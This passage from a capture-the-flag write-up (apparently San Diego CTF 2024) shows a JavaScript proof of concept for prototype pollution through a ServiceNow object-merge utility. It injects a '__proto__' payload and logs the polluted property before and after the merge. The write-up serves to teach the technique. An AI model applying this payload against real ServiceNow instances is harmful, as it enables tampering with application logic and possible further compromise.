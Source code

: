 Now we can debug and execute server-side JavaScript code!

**Let's test out our Prototype Pollution PoC (Proof-of-Concept) with the following code!**
```javascript
var now = new global.ServiceNowObjectUtils();
var form_data = {}

// {
//     "foo": "bar",
//     "__proto__":
//     {
//         "polluteTarget": "polluted"
//     }
// }
meta = '{"foo":"bar", "__proto__":{"polluteTarget":"polluted"}}';
gs.log("[*] Payload JSON object: " + meta);

gs.log("[*] Before polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] Before merged form_data: " + JSON.stringify(form_data));

now.merge(form_data, JSON.parse(meta));

gs.log("[*] After polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] After merged form_data: " + JSON.stringify(form_data));
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513212009.png)
